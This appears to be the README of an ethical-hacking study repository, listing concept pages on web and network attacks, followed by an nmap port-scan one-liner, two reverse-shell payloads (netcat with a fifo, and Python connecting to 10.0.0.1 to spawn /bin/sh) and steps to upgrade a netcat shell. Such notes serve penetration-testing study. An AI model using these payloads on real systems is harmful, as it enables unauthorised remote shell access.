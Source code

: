 # ScriptKiddie

This repo contains some concepts and code snippets related to Ethical hacking. The Contents are given in alphabetical order.

***Disclaimer: This content is for educational purpose.***
## Contents
- [Burp & OWASP ZAP](./concepts/16.md)
- [chisel](./concepts/9.md)
- [Cross-site request forgery (CSRF)](./concepts/20.md)
- [CVE](./concepts/13.md)
- [Directory traversal](./concepts/23.md)
- [Django](./concepts/15.md)
- [enum4linux]
- [Gobuster](./concepts/12.md)
- [Linux PrivEsc, LinPEAS & LinEnum](./concepts/17.md)
- [Networking tools](./concepts/2.md)
- [Nikto](./concepts/11.md)
- [nmap](./concepts/2a.md)
- [OSI & TCP/IP Model](./concepts/1.md)
- [OWASP Top 10](./concepts/14.md)
- [Pivoting](./concepts/4.md)
- [proxychain](./concepts/6.md)
- [Server-side request forgery (SSRF)](./concepts/19.md)
- [Server Side Template Injection with Jinja/Flask](./concepts/25.md)
- [shell](./concepts/5.md)
- [socat](./concepts/7.md)
- [ssh](./concepts/27.md)
- [sshuttle](./concepts/8.md)
- [SQLi](./concepts/24.md)
- [Static binaries](./concepts/10.md)
- [Websites basics](./concepts/3.md)
- [Web Requests using Python, Regex, HTML parser](./concepts/26.md)
- [XSS](./concepts/28.md)
- [XXE](./concepts/22.md)


## Enumeration

```
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports $ip
```

## Common Shell Payloads
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
[Github Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Stabilize nc shell

After getting a reverse shell by listening on any port using `nc -lvnp <port>` We can get upgrade the shell by performing the following
1. Run `python -c 'import pty;pty.spawn("/bin/bash")'`. If this gives error like "python dont exist" use python2 or python3 instead.

Just by using this we will get a comparatively better shell. But we can't use autocomplete and arrow keys. For more stable shell

2. Run `export TERM=xterm` in reverse shell and background the process with Ctrl + Z.
3. Run `stty raw -echo; fg` in your own terminal. This will give the stable shell.
